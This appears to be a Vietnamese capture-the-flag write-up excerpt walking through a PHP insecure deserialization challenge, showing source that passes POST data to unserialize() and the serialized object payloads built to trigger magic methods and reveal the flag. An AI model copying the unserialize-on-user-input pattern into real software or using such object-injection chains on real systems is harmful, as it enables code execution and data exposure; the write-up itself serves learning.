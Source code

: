 ```Php
}
 
if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
 
if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}
 
?>
```
![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/336028627_142122655447471_5436558228034084539_n.png?stp=dst-png_p206x206&_nc_cat=110&ccb=1-7&_nc_sid=aee45a&_nc_ohc=Bu067bm3uG8AX-C5o2Z&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdT8LO_LWkp6K2HHULr3hBbMZ2KiwLVKMZr5JqzZ4HdeMA&oe=6437C182)

Ta thấy thì sau khi submit gửi data thì nó sẽ chạy vào `unserialize`.

```Php
 if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG . "<br>";
}
```

Mình cần truyền data vào sao cho nó echo được `FLAG` và ở đây có:
+ điều kiện đầu  tiên là mình phải cho `$getflag = true` và để `&getflag = true` thì mình phải gọi được đến hàm `__toString` của class WakyWaky.
    + Để gọi được method `__tostring` mình cần phải echo đối tương `WakyWaky`.Vậy nên ở chỗ `echo $this->msg` mình có thể gán đối tượng `WakyWaky` cho biến msg
    ```Php
    $waky1 = new WakyWaky();
    $waky2 = new WakyWaky();
    $waky2->msg = $waky1;
    $se = serialize($waky2);
    echo $se;
    <!-- O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":0:{}} -->
    ```
    Mình gửi payload này lên thì nhận được:
    ```txt
    [YOU]:
    [FRIEND]: Hm.. you don't see to be the friend I was waiting for..
    ```
Đến đây chúng ta thấy nó đã chạy vào `__destruct` và vì `$receive` lúc này của chúng ta đang là `null !== "HelloBooooooy"`.
Tuy nhiên nếu chúng ta truyền `HelloBooooooy` vào thì nó sẽ bị die ở method `__contruct` 

```Php
$message = new GetMessage("a");
// Khởi tạo đối tượng Getmessage
// Lúc này $receive = a
$message->receive = "HelloBooooooy" ;
// Lúc này mình gán lại giá trị cho $receive = "HelloBooooooy" mà không cần gọi đến method '__contruct'
```
